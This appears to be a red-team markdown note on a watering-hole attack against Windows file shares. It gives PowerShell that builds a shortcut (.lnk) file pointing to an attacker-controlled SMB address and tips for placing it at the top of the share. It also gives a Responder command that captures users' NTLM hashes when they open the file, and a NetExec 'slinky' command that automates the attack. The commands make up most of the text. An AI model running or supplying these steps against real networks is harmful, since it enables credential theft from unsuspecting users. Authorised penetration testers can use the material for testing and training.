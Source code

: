 # Watering Hole Attack with Malicious Files in Shared Folders

## Overview

Placing a malicious file in a shared folder can result in significant exploitation opportunities. This technique is akin to a Watering Hole attack, where unsuspecting users access the malicious file.

This attack works particularly well when combined with tools like Responder, which can capture hashes when users interact with the malicious file.
## Steps

### 1. Create a Malicious File Using PowerShell

If you have access to a shared folder, you can use PowerShell to create a malicious file that unsuspecting users might click on. The PowerShell commands below will generate a shortcut (.lnk) file.

```powershell
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\192.168.163.15\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```

**Note:** The `TargetPath` should point to the IP of your Kali machine.

You can also add special characters to the filename to ensure it appears at the top of the shared folder.

### 2. Upload Malicious File to the Share

Once the malicious file is generated, it can be uploaded to any accessible file share within the environment, provided the attacker has sufficient privileges.

![](../../../Images/Pasted%20image%2020250224171214.png)

### 3. Run Responder to Capture Hashes

On your Kali machine, run Responder using the following command to listen for hashes.

```bash
sudo responder -I eth0 -dP
```

When a user clicks on the malicious file from their workstation, Responder will capture the hash.

![](../../../Images/Pasted%20image%2020250224171724.png)

### 4. Automate the Attack with NetExec

To automate the attack, you can use NetExec. This will automate the SMB relay attack to capture the user's credentials.

```bash
netexec smb <targethost ip> -d <domain> -u <user> -p <password> -M slinky -o NAME=test SERVER=<kali>
```